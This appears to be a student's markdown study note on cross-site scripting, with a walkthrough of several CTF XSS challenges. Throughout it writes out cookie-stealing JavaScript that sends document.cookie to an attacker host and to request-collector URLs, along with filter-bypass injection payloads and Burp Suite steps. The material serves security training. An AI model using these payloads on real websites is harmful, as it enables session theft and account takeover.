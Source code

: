# XSS
* Cross-site scripting (XSS) is a web security vulnerability that allows attackers to inject malicious code into a user's browser.

## Part 1. Report
 
## Part 2. XSS
- Working on Web Browser: JavaScript
- Working location: victim's web browser

1. Stored XSS -> Save in the server
2. Reflected XSS -> rebound from Server
3. XSS, CSRF
4. Steal cookie by using JavaScript

```javascript
var cookieData = document.cookie;
var i = new Image();
  i.src = "HTTP://normaltic.attacker.com/
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + "Secret_data";
  i.src = "HTTP://normaltic.attacker.com/?cookie=" + cookieData;
```

5. VPS or requestbin - https://public.requestbin.com/r/

6. XSS
   [Common XSS Errors[(https://github.com/imnarendrabhati/testing-new/blob/master/%3CIMG%20SRC%3DX%20ONERROR:JAVASCRIPT:ALERT(1)%3B%3E)

1) CTF XSS 1 (https://portswigger.net/web-security/cross-site-scripting/contexts)
- Error = Input script
- Annoucement and create content "<script>alert(1)</script>" on the subject.
- When you click it, the alert shows up.
- Instead of alert(1), put var i = new Image(); i.src = "HTTP://en7riltg206nc.x.pipedream.net/getCrred.php?cookie=" + cookieData;
- In BurpSuite, instead of alert(1), put the below code
```javascript
var cookieData = document.cookie; 
var i = new Image();
i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;
```

- On the admin visit url = type the address made by the attack post
- Check the flag on https://public.requestbin.com/

7. DOM Based XSS
- Create a tag by using JavaScript
- Create and execute a new script from a browser
- an XSS attack wherein the attack payload is executed as a result of modifying the DOM “environment” in the victim's browser used by the original client-side script,
- document.write = "";
- innerHTML

## Part 3. Assignment
1. Review
2. XSS CTF <br>
a. CTF XSS 2
  - Error = Showing the direct sentence on HTML
```javascript
<script>alert('x에 대한 검색 결과가 존재하지 않습니다.');</script>
```
  - Check Attack statement on search bar
```javascript
xss');alert(1);var i=('
```
  - Check Attack => xss');var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;var i=('
  - Send to repeater the POST URL to change GET method
  - Replace the Repeater on Burp Suite, working on the GET method instead of the POST method because the host gets the access
  - The GET URL inputs the admin visit URL bar
  - Check the flag on https://public.requestbin.com/

b. CTF XSS 3
  - Error = Showing ID on the URL on the personal information 
  - Check the attack possibility to change the ID on Burp Suite Request
  - Check the attack statement => aaa"/><script>alert(1)</script>
  - Check the attack => aaa"/><script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - Copy GET URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

c. CTF XSS 4
  - Error = In the board, it is possible to use special characters (<'">).
  - Check the attack possibility of using an attack statement on the board. => <script>alert(1)</script>
  - Filtering "script" and "alert", so using another attack statement => <img src=x onerror=confirm(1)> 
  - Check the attack => <img src="https://x" onerror="location.href='http://enjt04rx79at.x.pipedream.net/?cookie=' + document.cookie;">
  - Block the long subject
  - Check the attack on the content box
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

d. CTF XSS 5
  - Error = In the board, it is possible to use special characters (<'">), but it converts &lt;
  - Check the attack possibility of using an attack statement on the board => <script>alert(1)</script>
  - Using the Burp Suite, the website should be intercepted step by step
  - Create a new post and forward
  - Check the attack statement => <script>var cookieData = document.cookie; var i = new Image();i.src = "http://enjt04rx79at.x.pipedream.net/?cookie=" + cookieData;</script>
  - During the intercept, change the filtered attack statement
  - Open the new post and copy the URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

e. CTF XSS 6
  - Error = When you log in wrong, the alert pops up.
  - Check the attack possibility in the Burp Suite
  - The POST proxy sends to Repeater and changes the method to GET
  - Check special characters and it works
  - Check the attack statement => +]');alert(1)//
  - Check the attack => +]');location.href='http://enjt04rx79at.x.pipedream.net/?cookie='%2bdocument.cookie;//
  - Copy URL and input the URL on the admin visit bar
  - Check the flag on https://public.requestbin.com/

f. CTF XSS Challenge 
